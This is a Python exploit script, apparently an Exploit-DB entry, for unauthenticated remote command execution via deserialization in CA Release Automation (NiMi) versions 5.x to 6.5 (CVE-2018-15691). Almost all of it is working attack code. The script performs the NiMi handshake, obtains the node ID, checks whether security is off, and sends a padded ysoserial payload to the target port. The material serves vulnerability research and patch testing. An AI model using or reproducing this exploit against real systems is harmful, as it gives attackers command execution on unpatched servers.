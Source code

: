 EXP
---

    # Exploit Title: CA Release Automation NiMi 6.5 - Remote Command Execution
    # Date: 2016-06-23
    # Exploit Authors: Jakub Palaczynski, Maciej Grabiec
    # Vendor Homepage: http://www.ca.com/
    # Software Link: https://docops.ca.com/ca-release-automation/5-5-2/en/installation/deploy-agents/
    # Version: CA Release Automation (NiMi) 5.X, 6.3, 6.4, 6.5
    # CVE: CVE-2018-15691
    # Info: CA Release Automation (NiMi) Remote Command Execution via Deserialization
    # Info: Payloads generated using CommonsCollections1 from ysoserial work correctly.
    # Info: Proof of Concept exploits NiMi service if security is turned off.

    #!/usr/bin/python

    import socket
    import sys
    import struct

    if len(sys.argv) < 4:
        sys.stderr.write("[-]Usage: python %s <ip> <port> <payload_file> <target_nodeid - not mandatory>\n" % sys.argv[0])
        sys.stderr.write("[-]Exemple: python %s 10.0.0.1 6600 /tmp/payload.bin\n" % sys.argv[0])
        exit(1)

    host = sys.argv[1]
    port = sys.argv[2]
    file = sys.argv[3]

    # check if payload does not exceed specified value
    payloadObj = open(file,'rb').read()
    if len(payloadObj) > 5729:
        print 'Payload must be less than 5730 bytes. Try another one.'
        exit(1)

    # open socket to nimi port
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting to node.'
    sock.connect((host, int(port)))

    # say hello to nimi
    sock.recv(256)
    sock.send('\x00\x00\x00\x0c\x0a\x04\x6e\x6f\x64\x65\x10\x0a\x72\x02\x08\x00') # first required message

    # get Node ID
    data = sock.recv(256)
    name = data[5] + data[6:6+ord(data[5])]
    if len(sys.argv) == 5:
        name = struct.pack(">B", len(sys.argv[4])) + sys.argv[4]

    # check if security is enabled
    sock.send('\x00\x00\x00\x1a\x0a\x04\x6e\x6f\x64\x65\x10\x0a\x7a\x10\x0a\x0c\x0a\x07\x30\x2e\x30\x2e\x30\x2e\x30\x10\x94\x3c\x10\x00') # second required message
    check = sock.recv(256)
    if check == "":
        print 'Security is enabled. Sorry.'
        exit(1)

    # send payload
    print 'Sending payload.'
    header = '\x0a\x04\x6e\x6f\x64\x65\x10\x01\x1a' + name + '\x2a\xe4\x2c\x0a\xe1\x2c'
    stage = header + payloadObj + '\x90' * (5729-len(payloadObj))
    payload = struct.pack(">I", len(stage)) + stage

    sock.sendall(payload)
    sock.close()